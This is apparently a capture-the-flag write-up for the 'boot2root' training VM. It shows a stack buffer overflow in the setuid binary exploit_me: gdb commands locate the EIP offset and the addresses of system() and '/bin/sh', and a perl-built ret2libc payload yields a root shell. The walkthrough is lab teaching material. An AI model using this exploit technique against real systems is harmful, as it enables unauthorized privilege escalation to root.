 # boot2root
root a iso using multiple vulnerabilities 


## Get IP running VirtualBox machine (boot2root)

```
VBoxManage guestproperty get boot2root "/VirtualBox/GuestInfo/Net/0/V4/IP"
```

## ZAZ user

#### find char numbers to overwrite the EIP

```
./exploit_me `printf 'A%.0s' {1..140}`
```
```
zaz@BornToSecHackMe:~$ ./exploit_me `printf 'A%.0s' {1..140}`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Illegal instruction (core dumped)
```

#### gdb break at strcpy in main

```
gdb exploit_me
(gdb) disass main
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   %ebp
   0x080483f5 <+1>:	mov    %esp,%ebp
   0x080483f7 <+3>:	and    $0xfffffff0,%esp
   0x080483fa <+6>:	sub    $0x90,%esp
   0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    $0x1,%eax
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    0xc(%ebp),%eax
   0x08048410 <+28>:	add    $0x4,%eax
   0x08048413 <+31>:	mov    (%eax),%eax
   0x08048415 <+33>:	mov    %eax,0x4(%esp)
   0x08048419 <+37>:	lea    0x10(%esp),%eax
   0x0804841d <+41>:	mov    %eax,(%esp)
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    0x10(%esp),%eax
   0x08048429 <+53>:	mov    %eax,(%esp)
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    $0x0,%eax
   0x08048436 <+66>:	leave
   0x08048437 <+67>:	ret
End of assembler dump.
(gdb) b *0x08048420
Breakpoint 1 at 0x8048420
(gdb) r
```

#### Find EIP address

```
(gdb) r $(perl -e 'print "A"x140 . "\xef\xbe\xad\xde"')
Starting program: /home/zaz/exploit_me $(perl -e 'print "A"x140 . "\xef\xbe\xad\xde"')

Breakpoint 1, 0x08048420 in main ()
```

#### Find system function address

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

#### Find chars "/bin/sh"

```
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
(gdb) x/s 0xb7f8cc58
0xb7f8cc58:	 "/bin/sh"
```

#### Prepare ret2libc attack

```
perl -e 'print "A"x140 . "\x60\xb0\xe6\xb7" . "OSEF" . "\x58\xcc\xf8\xb7"'
```

#### Execute

```
./exploit_me $(perl -e 'print "A"x140 . "\x60\xb0\xe6\xb7" . "OSEF" . "\x58\xcc\xf8\xb7"')

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`��OSEFX��
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)

```

We are now root

